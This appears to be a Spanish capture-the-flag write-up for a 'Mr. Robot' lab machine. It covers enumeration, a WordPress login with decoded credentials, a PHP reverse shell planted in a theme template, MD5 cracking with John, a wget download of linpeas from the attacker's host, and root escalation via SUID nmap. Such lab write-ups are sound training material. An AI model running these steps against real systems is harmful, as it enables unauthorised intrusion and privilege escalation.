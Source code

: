 ```yaml
---
title: 01. Mr. Robot
daft: "false"
tags: 
cssclasses:
  - hbox
---
```

---
Created by: [@raf181_](https://github.com/raf181)  | Date: `18-11-2024`

---
### Enumeración
Empezamos con un escaneo básico de Nmap y verificamos el sitio principal:
![](99.%20Inserts/Pasted%20image%2020241118185442.png)
#### Escaneo de Nmap  
Podemos ver que esta máquina tiene solo 2 puertos abiertos:  
- **Puerto 22** — SSH (cerrado).  
- **Puertos 80, 443** — Página web que ejecuta un sitio de búsqueda.  
Al revisar el sitio principal, encontramos una pequeña introducción seguida de un conjunto de opciones para elegir:  
![](99.%20Inserts/Pasted%20image%2020241118185452.png)

Al seleccionar algunas opciones, somos redirigidos a una serie de videos e información sobre el programa *Mr. Robot*, pero no encontramos nada útil:  
![](99.%20Inserts/Pasted%20image%2020241118185459.png)
  
Nuestro escaneo con **Gobuster** recuperó varios directorios, algunos relacionados con Wordpress:  
![](99.%20Inserts/Pasted%20image%2020241118185506.png)

Tras explorar estos directorios, encontramos la primera clave en `robots.txt`:  
![](99.%20Inserts/Pasted%20image%2020241118185514.png)

Ahora podemos responder la pregunta “¿Cuál es la clave 1?” con esta primera bandera. Además, encontramos un archivo llamado `fsocity.dic`, que parece ser una lista de usuarios y contraseñas potenciales.  

Al continuar buscando en otros directorios, encontramos una cadena codificada en Base64 en el directorio de licencias:  
![](99.%20Inserts/Pasted%20image%2020241118185520.png)

Usamos [CyberChef](https://gchq.github.io/CyberChef/) para decodificar la cadena:  
![](99.%20Inserts/Pasted%20image%2020241118185528.png)

Obtenemos un par de credenciales que podrían ser útiles. Como vimos varios directorios de Wordpress, nos dirigimos a la página de inicio de sesión:  
![](99.%20Inserts/Pasted%20image%2020241118185538.png)
Probamos las credenciales obtenidas:  
![](99.%20Inserts/Pasted%20image%2020241118185549.png)  
¡Estamos dentro! Ahora podemos configurar una *shell inversa* para obtener acceso inicial al servidor. Descargamos el script de shell inversa de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y lo configuramos en la plantilla `404.php`:  

![](99.%20Inserts/Pasted%20image%2020241118185600.png)  

Después de esto, configuramos un **escuchador netcat** en el puerto especificado:  
![](99.%20Inserts/Pasted%20image%2020241118185610.png)
Accedemos a la ubicación de la plantilla con la siguiente URL en el navegador:  

```
http://$ip/wp-includes/themes/TwentyFifteen/404.php
```  

Y obtenemos acceso a la shell en nuestra máquina:  
![](99.%20Inserts/Pasted%20image%2020241118185615.png)

Comprobamos nuestro usuario y el directorio de trabajo actual:  
![](99.%20Inserts/Pasted%20image%2020241118185621.png)
  
Estamos como el usuario `daemon` en el directorio raíz. Al revisar el directorio `/home`, encontramos permisos para acceder a un archivo con la segunda clave:  
![](99.%20Inserts/Pasted%20image%2020241118185626.png)
  
Podemos responder ahora a la pregunta “¿Cuál es la clave 2?” con esta segunda bandera.  

---

### Escalada de Privilegios  
Los pasos habituales para enumerar máquinas Linux incluyen: verificar permisos de `sudo`, buscar trabajos programados en `crontab`, o usar scripts como **linpeas** para buscar pistas.  
Dado que tenemos una shell limitada, la actualizamos a una interactiva usando este comando de Python:  

```
python -c 'import pty;pty.spawn("/bin/bash")'
```  

Comprobamos los permisos de `sudo` con `sudo -l`:  
![](99.%20Inserts/Pasted%20image%2020241118185639.png)

No tenemos permisos `sudo`. Revisamos el archivo de contraseña en el directorio del usuario `robot`:  
![](99.%20Inserts/Pasted%20image%2020241118185645.png)

Es un hash MD5. Usamos **John the Ripper** para descifrarlo:  
```Bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt password.raw-md5
```
![](99.%20Inserts/Pasted%20image%2020241118185653.png)

Obtenemos un nuevo conjunto de credenciales:  
```
usuario: robot  
contraseña: abcdefghijklmnopqrstuvwxyz
```

```Bash
sudo python3 -m http.server 80
```

![](99.%20Inserts/Pasted%20image%2020241118190546.png)
```Bash
wget http://${your_IP}/linepeas.sh
```
![](99.%20Inserts/Pasted%20image%2020241118190821.png)
No encontramos tareas programadas en `crontab`. Intentamos usar un script de **linpeas**, pero seguimos perdiendo nuestra shell al ejecutarlo.  

Optamos por buscar binarios **SUID** con el comando:  

```
find / -perm -4000 2>/dev/null
```  
![](99.%20Inserts/Pasted%20image%2020241118190718.png)
#### Encontrando binarios SUID  
Consultamos [Gtfobins](https://gtfobins.github.io/gtfobins/) y descubrimos que podemos explotar **nmap**:  
![](99.%20Inserts/Pasted%20image%2020241118190726.png)
 
Probamos la opción interactiva (`nmap --interactive`) para ejecutar una shell:  
![](99.%20Inserts/Pasted%20image%2020241118190741.png)
#### Explotando nmap  
¡Ahora somos `root`! Revisamos el directorio `/root` y encontramos nuestra tercera clave:  
![](99.%20Inserts/Pasted%20image%2020241118190746.png)
#### Tercera clave encontrada en `/root`  
Podemos responder la pregunta “¿Cuál es la clave 3?” con esta última bandera.  
